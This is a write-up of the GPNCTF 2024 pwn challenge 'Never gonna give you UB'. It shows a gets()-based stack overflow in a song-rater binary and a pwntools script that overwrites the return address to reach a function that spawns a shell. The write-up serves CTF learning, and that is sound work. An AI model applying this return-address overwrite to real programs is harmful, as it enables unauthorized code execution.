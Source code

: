 ```yaml
---
layout: load_md
title: The White Circle | Gpnctf 2024 | Never gonna give you UB Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Gpnctf 2024
parent: gpnctf_2024
category: pwn
challenge: Never gonna give you UB
tags: "pwn, ava, win function, pwntools"
date: 2024-06-02T00:00:00+00:00
last_modified_at: 2024-06-02T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Gpnctf 2024</h1>

## Never gonna give you UB
> Solved by : iamavu

We are given a file called `song_rater` amongst other files (Dockerfile and such) with the following security mitigations.

![](https://i.imgur.com/JYzn83H.png)


as there is no PIE, this should be easily solvable as there won’t be random address loading for binary everytime we run the binary, yay!
When we run the binary we get the following

![](https://i.imgur.com/KvLHIve.png)


So it just prints whatever input we get. 

We are also given the C code for the binary, making our job much easier.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// win or flag function which we have to execute somehow for us getting the shell
void scratched_record() {
        printf("Oh no, your record seems scratched :(\n");
        printf("Here's a shell, maybe you can fix it:\n");
        execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

//main function which asks for input without checking input size (gets is security flaw here)
int main() {
        printf("Song rater v0.1\n");
        char buf[0xff];
        printf("Please enter your song:\n");
        gets(buf);
        printf("\"%s\" is an excellent choice!\n", buf);
        return 0;
}
```

I have added comments where necessary, now lets have a look at binary in GDB to find the address of `RIP` so we can put the address of `scratched_record` there and get our flag.


![](https://i.imgur.com/1vmdIB9.png)


We observe that the address of `scratched_record` is `0x0000000000401196`, so we need to somehow put that address in `RIP` instruction pointer.
Let’s buffer overflow!!
We will get big buffer of 300 bytes and see how the program behaves and see which byte ends up in `RBP` .

![](https://i.imgur.com/qpSNWTo.png)


We did `pwn cyclic 300` to get 300 bytes which have certain pattern, and now we will send this as input to program and make it crash.
Why 300? well `0xff` in decimal is `255` so 300 sound pretty good to me.

![](https://i.imgur.com/ZsNFR3a.png)


After crashing the program we see that the byte `haaaaaab` gets into RBP, let’s see how much bytes that is by doing `cyclic -l haaaaaab`

![](https://i.imgur.com/UT4iqsl.png)


We found the offset at 256, now we need to add 8 into that so we get the offset where `RIP` is!
and that is `264`. yay!
Let’s write a simple pwntools script to exploit this now

```python
from pwn import *
win = p64(0x0000000000401196)
overwrite = b"A"*264
payload = overwrite + win
p = process("./song_rater")
p.sendline(payload)
p.interactive()
```

We simply pack the address of `scatched_record` in `win` variable and overwrite `264` bytes and then send that payload to the program and then get an interactive shell!

Let’s run this

![](https://i.imgur.com/2icIWVR.png)


we got the shell!

